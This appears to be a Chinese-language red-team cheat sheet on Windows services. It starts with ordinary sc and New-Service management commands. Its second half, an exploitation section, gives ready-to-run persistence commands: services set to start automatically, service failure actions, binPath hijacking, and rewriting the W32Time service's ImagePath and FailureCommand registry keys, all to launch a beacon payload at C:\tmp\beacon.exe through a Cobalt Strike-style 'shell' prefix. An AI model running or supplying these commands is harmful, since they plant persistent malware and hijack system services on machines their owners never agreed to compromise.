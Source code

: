 ## New Service

### 系统服务 常用命令

#### 创建服务

~~~cmd
sc create <Service Name> binPath= "<path to executable>"

# PowerShell
New-Service -Name "<Service Name>" -BinaryPathName "<path to executable>" -Description "<Description>" -StartupType Automatic
~~~

#### 启动服务

~~~cmd
sc start <Service Name>
~~~

#### 停止服务

~~~cmd
sc stop <Service Name>
~~~

#### 删除服务

~~~cmd
sc delete <Service Name>
~~~

#### 查询服务

~~~cmd
sc query

# Usage：
sc query <Service Name>
~~~

#### 修改服务配置

~~~cmd
sc config <Service Name> <parameter>= <value>
~~~

## 利用方法

### 创建、启动服务

~~~cmd
shell sc create <Server Name> binpath= "<path to executable>" start= auto && sc.exe start <Service Name>

# Usages：
# 非服务马的情况：启动会报错，但实际上是成功的
# 创建服务，设置服务启动失败之后执行命令，启动服务（非服务马启动失败之后会触发服务启动失败执行的命令）
shell sc create <Server Name> binpath= "cmd.exe /c start /b <path to executable>" start= auto && sc failure <Server Name> command= "\"cmd.exe /c start /b <path to executable>\"" && sc start <Server Name>

shell sc create publicsrv binpath= "cmd.exe /c start /b C:\tmp\beacon.exe" start= auto && sc failure publicsrv command= "\"cmd.exe /c start /b C:\tmp\beacon.exe\"" && sc.exe start publicsrv
~~~

### 劫持路径

#### bin路径

“ ***binPath*** ”是将服务指向服务启动时需要执行的二进制文件的位置。Metasploit 框架可用于生成任意可执行文件

```cmd
# Usage
sc config <Server Name> binPath= "<path to executable>" && sc start <Server Name>

sc config Rex binPath= "C:\tmp\beacon.exe" && sc start Fax
```

#### 图像路径

“ ***ImagePath*** ”注册表项通常包含驱动程序映像文件的路径。使用任意可执行文件劫持此Key将导致有效负载在服务启动期间运行

```cmd
# Usage
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time" /v ImagePath /t REG_SZ /d "<path to executable>"

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time" /v ImagePath /t REG_SZ /d "C:\tmp\beacon.exe"
```

#### 失败命令

Windows 提供了一种功能，以便在服务无法启动或其通信进程终止时执行某些操作。具体来说，当服务被终止时可以执行命令。控制此操作的注册表项是“ ***FailureCommand*** ”，它的值将定义将执行的内容

```cmd
# Usage
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time" /v FailureCommand /t REG_SZ /d "<path to executable>"
reg delete "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time" /v FailureCommand

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time" /v FailureCommand /t REG_SZ /d "C:\tmp\beacon.exe"
```

***或者，可以通过使用***  ***“sc”*** 实用程序并指定 ***“failure”*** 选项来执行相同的操作

```cmd
# Usage
sc failure <Server Name> command= "\"<path to executable>\""

sc failure Rex command= "\"C:\tmp\beacon.exe\""
```

